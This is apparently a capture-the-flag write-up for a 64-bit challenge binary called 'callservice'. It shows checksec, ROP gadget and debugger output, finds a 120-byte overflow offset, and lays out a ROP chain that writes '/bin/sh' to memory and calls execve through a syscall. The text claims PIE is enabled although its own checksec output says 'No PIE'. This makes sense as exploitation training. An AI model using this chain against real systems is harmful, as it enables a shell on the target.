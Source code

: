 # Solution

## Analysis 

1. The program notably has PIE enabled, so we need to find a way to leak out the function addresses.
   ```bash
    # checksec callservice 
    [*]
        Arch:       i386-32-little
        Arch:       amd64-64-little
        RELRO:      Partial RELRO
        Stack:      No canary found
        NX:         NX unknown - GNU_STACK missing
        PIE:        No PIE (0x400000)
        Stack:      Executable
        RWX:        Has RWX segments
        SHSTK:      Enabled
        IBT:        Enabled
        Stripped:   No
    ```

    If you want the assembly code, type in this command:
    ```bash
    objdump -d -M intel --source callservice > objdump.txt
    ```

    To obtain the ROP Gadgets:
    ```bash
    ROPgadget --binary callservice > rop.txt
    ```

2. Within the ROP Gadgets, there are a few gadgets available that can be used for syscalls.
   ```asm
   0x00000000004011fe : pop rax ; ret
   0x0000000000401200 : pop rdi ; ret
   0x0000000000401202 : pop rsi ; ret
   0x0000000000401204 : pop rdx ; ret
   0x0000000000401209 : mov qword ptr [rdi], rsi ; ret
   0x0000000000401206 : syscall
   ```

3. The virtual memory shows a memory range `0x404000` to `0x405000` that is writable. This can be used to store information, such as shellcode.
   ```bash
   pwndbg> vmmap
   LEGEND: STACK | HEAP | CODE | DATA | WX | RODATA
             Start                End Perm     Size Offset File (set vmmap-prefer-relpaths on)
          0x404000           0x405000 rw-p     1000   3000 callservice
   ```

4. The found offset is `120`.
   ```bash
   pwndbg> file callservice
   pwndbg> cyclic 200
   aaaaaaaabaaa...
   pwndbg> r
   Calling Services
   Help may I help you?
   1. Write feedback
   2. Call someone idk.
   3. Exit
   1
   Please enter your feedback: aaaaaaaabaaa....
   Thank you for your feedback: aaaaaaaabaaa....
   Program received signal SIGSEGV, Segmentation fault.

   0x0000000000401311 in main ()
   LEGEND: STACK | HEAP | CODE | DATA | WX | RODATA
   ────────────────[ REGISTERS / show-flags off / show-compact-regs off ]────────────────
    RAX  0
    RBX  0x7fffffffddd8 —▸ 0x7fffffffe151 ◂— '/root/sig25/challenges/pwn/callingforyou1/soln/callservice'
    RCX  0
    RDX  0
    RDI  0x7fffffffda70 —▸ 0x7fffffffdaa0 ◂— 'aaaaanaaaaaaaoaaaaaaapaaaaaaaqaaaaaaaraaaaaaasaaaaaaataaaaaaauaaaaaaavaaaaaaawaaaaaaaxaaaaaaayaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaRFGBG=15'
    RSI  0x7fffffffdaa0 ◂— 'aaaaanaaaaaaaoaaaaaaapaaaaaaaqaaaaaaaraaaaaaasaaaaaaataaaaaaauaaaaaaavaaaaaaawaaaaaaaxaaaaaaayaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaRFGBG=15'
    RBP  0x616161616161616f ('oaaaaaaa')
    RSP  0x7fffffffdcc8 ◂— 'paaaaaaaqaaaaaaaraaaaaaasaaaaaaataaaaaaauaaaaaaavaaaaaaawaaaaaaaxaaaaaaayaaaaaaa'
    RIP  0x401311 (main+249) ◂— ret 
   ─────────────────────────[ DISASM / x86-64 / set emulate on ]─────────────────────────
    ► 0x401311 <main+249>    ret                                <0x6161616161616170>
       ↓

   pwndbg> cyclic -l 0x6161616161616170
   Finding cyclic pattern of 8 bytes: b'paaaaaaa' (hex: 0x7061616161616161)
   Found at offset 120
   ```

## Payload Creation

The payload should follow this structure:

- 120 `b'A'`'s
- `pop rdi ; ret` | Pointer to where the shellcode is stored (within `0x404000` - `0x405000`)
- `pop rsi ; ret` | Actual shellcode contents (`/bin/sh`)
- `mov qword ptr [rdi], rsi ; ret` [Moving the contents in `RSI` to where `RDI` is pointed to]
- `pop rax ; ret` | `RAX`
- `pop rdi ; ret` | `RDI`
- `pop rsi ; ret` | `RSI`
- `pop rdx ; ret` | `RDX`
- `syscall ;`

## Exploiting

Have a look at the [`soln.py`](./soln.py) to see the full script and how it was created.